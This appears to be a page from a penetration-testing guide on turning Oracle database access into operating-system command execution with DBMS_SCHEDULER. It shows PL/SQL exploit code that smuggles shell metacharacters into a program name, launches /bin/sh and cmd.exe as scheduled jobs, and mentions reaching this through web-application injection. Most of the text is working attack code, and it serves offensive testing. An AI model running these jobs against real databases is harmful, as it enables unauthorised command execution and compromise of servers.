 {% hint style="info" %}
Execution of programs is not allowed using DBMS\_SCHEDULER. However, there is a bug that allows this restriction to be bypassed. **By embedding shell meta-characters** such as the ampersand (&) or pipes (||) in the name of the program to be run, it's possible to execute programs
{% endhint %}

```plsql
-- windows
BEGIN
DBMS_SCHEDULER.CREATE_PROGRAM (
                           program_name=> 'MyCmd',
                           program_type=> 'EXECUTABLE',
--  Use the ampersand to break out
                           program_action  => 'c:/foo.bat'||chr(38)||'dir>c:/oraoutput.txt'||chr(38)||'c:/foo.bat',
                           enabled=> TRUE,
                           comments=> 'Run a command using shell metacharacters.');
DBMS_SCHEDULER.CREATE_JOB (
                           job_name=> 'X',
                           program_name=> 'MyCmd',
                           repeat_interval=> 'FREQ=SECONDLY;INTERVAL=10',
                           enabled=> TRUE);
END;
/

--linux (chmod example)
BEGIN
   dbms_scheduler.create_job (job_name    => 'myjob',
                              job_type    => 'executable',
                              job_action  => '/bin/sh',
                              number_of_arguments => 2,
                              auto_drop   => true);
   dbms_scheduler.set_job_argument_value ('myjob', 1, '-c');
   dbms_scheduler.set_job_argument_value ('myjob', 2, 'chmod a+r your_files');
   dbms_scheduler.run_job ('myjob');
END;
/ 
```

**Alternatively**, here’s a code sample that implements the entry of ‘0wned’ string into a text file in the root of the C: drive:

```plsql
exec DBMS_SCHEDULER.create_program('RDS2008','EXECUTABLE','c:\ WINDOWS\system32\cmd.exe /c echo 0wned &gt;&gt; c:\rds3.txt',0,TRUE);
exec DBMS_SCHEDULER.create_job(job_name =&gt; 'RDS2008JOB',program_name =&gt; 'RDS2008',start_date =&gt; NULL,repeat_interval =&gt; NULL,end_date =&gt; NULL,enabled =&gt; TRUE,auto_drop =&gt; TRUE);
```

This will create and run a job for executing your command. And here’s an option for calling the Scheduler from another procedure – ‘SYS.KUPP$PROC.CREATE\_MASTER\_PROCESS’, which is of interest to us, primarily, because it allows you to embed multi-statement queries, that is, those consisting of multiple sub-queries. Theoretically, you can run such query even in case of **injection into a web application**.
